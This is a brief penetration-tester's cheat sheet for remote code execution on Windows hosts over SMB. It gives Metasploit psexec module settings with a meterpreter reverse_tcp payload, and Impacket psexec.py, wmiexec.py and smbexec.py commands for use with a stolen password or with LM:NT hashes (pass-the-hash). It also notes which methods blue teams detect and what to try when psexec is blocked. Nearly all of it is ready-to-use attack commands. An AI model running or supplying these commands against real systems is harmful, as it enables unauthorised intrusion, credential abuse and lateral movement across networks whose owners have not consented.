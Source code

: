 If we have a password:
Metasploit:
`use explot/windows/smb/psexec`

change payload because it defaults to 32bit x86
`set payload windows/x64/meterpreter/reverse_tcp`
`set rhosts <IP>`
`set smbdomain <DOMAIN> `
`set smbuser <user>`
`set smbpass <password>`
`show targets`
if you have problems with automatic try Native upload or other

note: gets picked up a lot by blue team
`background` to set shell in background
`session`
`session <num>`
use psexec.py
`psexec.py <domain>/<user>:'<passeord'@<IP_ADDRESS>`
note: no tld on domain 
note: you can remove the password part and type it if it includes a quote

If we have a SAM hash:
Metasploit:
`set payload windows/x64/meterpreter/reverse_tcp`
`set rhosts <IP>`
`unset smbdomain` if it was set otherwise dont need
`set smbuser administrator`
`set smbpass <LM_HASH>:<NT_HASH>`

use psexec.py:
`psexec.py <user>@<IP_ADDRESS> -hashes <HASH>`

Note: shells on pc arent needed to attack domain

if psexec is blocked

try:
`wmiexec.py`
`smbexec.py`
with same options as `psexec.py`